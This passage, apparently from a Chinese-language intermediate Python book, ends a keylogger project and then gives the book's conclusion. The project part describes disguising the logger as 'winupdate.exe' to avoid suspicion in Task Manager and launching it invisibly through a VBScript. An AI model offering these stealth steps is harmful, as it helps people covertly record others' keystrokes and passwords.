唯一重要的文件包括‘winupdate.exe’和‘Run.vbs’。前者是实际的键盘记录器程序，被标记为‘winupdate’，这样如果用户打开任务管理器，就不会显得可疑。

在将Python程序编译成.exe时，由于某些原因，你无法选择让它隐形运行。为了解决这个问题，你可以创建一个名为 Run.vbs 的小vbscript文件，它能隐形启动 winupdate.exe。

#### 第五步：测试

双击 Run.vbs 打开它，程序将自动开始。如果你想停止记录，只需打开任务管理器，然后结束 winupdate.exe 进程。之后，打开 keyloggeroutput.txt，查看你输入的所有字符都已被记录。

正如我之前提到的，你需要注意，当你用记事本打开它时，可能会看到一些看起来奇怪的字符。这些字符表示你按下了退格键。

这些简单的项目是你应该能够处理的，并且可以利用你在本书中学到的知识自行改进。我鼓励你在网上寻找更多项目，例如密码生成器程序和代码制作3D游戏，并了解我们自初级版以来所涵盖的Python主题和话题是如何相关的。

点击此处下载本书的有声书版本：[https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975](https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975)

## 结论

我们已经到了本书的结尾。感谢你的阅读，并恭喜你读到了最后。

我希望你从本书中学到新知识时度过了愉快的时光，因为我可以说我自己非常享受，真希望我能继续下去。可惜的是，我们必须在这里停下，否则下一个“高级”版本就没有意义了 🙂。

在本书中，我们涵盖了七个关键领域，包括：

- 浅拷贝/深拷贝
- Python中的对象和类
- Python中的递归
- 调试和测试
- Python中的斐波那契数列和记忆化
- Python中的参数
- 命名空间和Python模块，并以以下内容总结：
- 适合中级者的简单Python项目

每个主题的讲解时间不应超过一天，这样你就可以在七天（或更少）内学完本指南中的所有内容。

请务必获取本系列的下一本书，我们将在其中讨论许多其他令人兴奋的Python主题，以确保你拥有最终成为该语言佼佼者所需的所有知识。

谢谢，祝你好运！